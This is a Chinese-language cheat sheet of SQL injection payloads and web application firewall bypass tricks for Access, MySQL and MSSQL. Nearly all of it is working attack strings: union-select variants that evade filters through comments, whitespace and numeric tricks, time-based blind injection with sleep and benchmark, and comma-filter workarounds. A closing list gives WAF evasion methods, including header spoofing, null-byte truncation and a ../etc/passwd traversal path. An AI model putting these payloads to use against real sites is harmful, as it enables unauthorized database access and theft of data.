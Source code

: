  #### Access
	空格符
	%09、%0a、%0c、%0d、%16
 #### Mysql
	注释符
	#、/*...*/、--[空格] ...
	空格符
	[0x09,0x0a-0x0d,0x20,0xa0]
	特殊符号
	%a 换行符，可结合注释符使用%23%0a，%2d%2d%0a。
	%21  ！ 叹号
	%2b  +  加号
	%2d  -  减号
	%40  @  符号
	%7e   ~  波浪号
	Id=1 union select(1),user()
	Id=1 union /!12345select/1,user()
	Id=1 union select@1,user()
	Id=1 union select {x 1},user()
	Id=1 union select"1",user()
	Id=1 union select\N,user()
	Id=1 union select 1,user()`
	Id=1 union select 1,user()""
	Id=1 union select 1,user()A
	Id=1 union select 1,user()`b
	Id=1 union(select 1,(select/!schema_name/from information_schema.SCHEMATA limit 1,1))
	Id=1 union(select 1,(select{x schema_name}from information_schema.SCHEMATA limit 1,1))
	Id=1 union(select 1,(select(schema_name)from information_schema.SCHEMATA limit 1,1))
	浮点数
	Id= 1.0union select 1,user()
	Id= 1.union select 1,user()
	Id= 1E0union select 1,user()
	Id=\Nunion select 1,user()
	Id=1 unionselect user(),2.0from admin
	Id=1 union select user(),8e0from admin
	Id=1 union select user(),\Nfrom admin
	内联注释
	/*!UnIon12345SelEcT*/ 1,user()   //数字范围 1000-50540
	mysql黑魔法
	select{x username}from {x11 test.admin};
	函数
	截取
	Mid(version(),1,1)
	Substr(version(),1,1)
	Substring(version(),1,1)
	Lpad(version(),1,1)
	Rpad(version(),1,1)
	Left(version(),1)
	reverse(right(reverse(version()),1)) 
	连接
	concat(version(),'|',user());
	concat_ws('|',1,2,3)
	字符转换
	Ascii() Char() Hex() Unhex()
	过滤逗号
	127' UNION SELECT * FROM ((SELECT1)a JOIN (SELECT2)b JOIN (SELECT3)c JOIN (SELECT4)d JOIN (SELECT5)e)# 
	相当于 union select 1,2,3,4,5
	union select * from (select 1)a join(select{x schema_name} from information_schema.SCHEMATA limit 1,1)b
	limit 1 offset 0相当于limit 1,0
	mid(version() from 1 for 1)相当于Mid(version(),1,1)
	<>被过滤
	id=1 and ascii(substr(database(),0,1))>64
	比较符
	greatest(n1,n2,n3,等)函数返回输入参数(n1,n2,n3,等)的最大值
	id=1 and greatest(ascii(substr(database(),0,1)),64)=64
	函数构造
	sleep(5)/benchmark(10000000,SHA1(1))
	id=1 xor sleep%23%0a(5)
	id=1 xor sleep%2d%2d%0a(5)
	id=1 xor sleep([%20]5) 
	id=1 xor benchmark%0a(10000000,SHA1(1))
	id=1 xor sleep[空白字符](5)
	select{x[可填充字符]1}
 #### MSSQL
	注释符
	/*、--、;00%、/**/
	空格符
	[0x01-0x20][0x0a-0x0f][0x1a-0x-1f]
	特殊符号
	%3a 冒号
	id=1 union:select 1,2 from:admin
	id=1 union select+1,'2',db_name() from admin
	id=1 union select-1,'2',db_name() from admin
	id=1 union select.1,'2',db_name() from admin
	id=1 union select:1,'2',db_name() from admin
	id=1 union select~1,'2',db_name() from admin
	id=1%20union%20select%201,'2',db_name()%80from%20admin
	id=1 union select 1,'2',db_name+() from admin
	函数变形: db_name[空白字符]()
	浮点数
	id=1.1union select 1,'2',db_name()
	id=1e0union select 1,'2',db_name()
	运算符
	id=1-1union select '1',system_user,3 from admin
	id=1e-union select '1',system_user,3 from admin
	字符串截取函数
	Substring(@@version,1,1)
	Left(@@version,1)
	Right(@@version,1)
	charindex('test',db_name())
	字符串转换函数
	Ascii('a')=char(97) 括号之间可添加空格
 #### WAF
	同时提交GET和POST
	访问HTTP绕过对HTTPS的防护
	%00截断
	参数填充垃圾数据，缓冲区溢出
	X-FORWARDED-FOR伪造绕过
	静态文件/sql.php/1.js?id=1绕过
	白名单绕过，URL只要存在某字符就不会拦截
	/sql.php/admin.php?id=1
	/sql.php?a=/manage/&b=../etc/passwd
	/../../../manage/../sql.asp?id=2
	伪造User-agent绕过，可改为爬虫agent